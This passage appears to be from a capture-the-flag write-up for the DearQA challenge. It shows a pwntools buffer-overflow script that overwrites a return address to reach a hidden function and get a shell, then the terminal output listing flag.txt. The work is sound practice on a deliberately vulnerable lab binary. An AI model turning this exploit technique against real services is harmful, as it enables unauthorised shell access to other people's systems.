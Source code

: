 - crafted a Python script <strong>script.py</strong><br>
- started the challenge´s VM´s<br>
- executed <strong>script.py</strong><br></p>

<p><strong>script.py</strong></p>

```bash
from pwn import *

# Connect to the remote service
con = remote('xx.xxx.xx.xxx', 5700)

# Address of vuln() function (double-check this in Ghidra)
vuln_addr = p64(0x400686)

# Craft payload
payload  = b'A' * 32        # Overflow buffer
payload += b'B' * 8         # Overwrite saved RBP
payload += vuln_addr        # Overwrite return address

# Send payload
con.recvuntil("What's your name: ")
con.sendline(payload)

# Drop to interactive shell
con.interactive()
```


```bash
:~/DearQA# python3 script.py
[+] Opening connection to xx.xxx.xx.xxx on port 5700: Done
...
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86^F@^@^@^@^@^@
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (659): Inappropriate ioctl for device
bash: no job control in this shell
ctf@...:/home/ctf$ $ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
```

```bash
ctf@...:/home/ctf$ $ pwd
pwd
/home/ctf
```

```bash
ctf@...:/home/ctf$ $ ls
ls
DearQA	dearqa.c  flag.txt
```
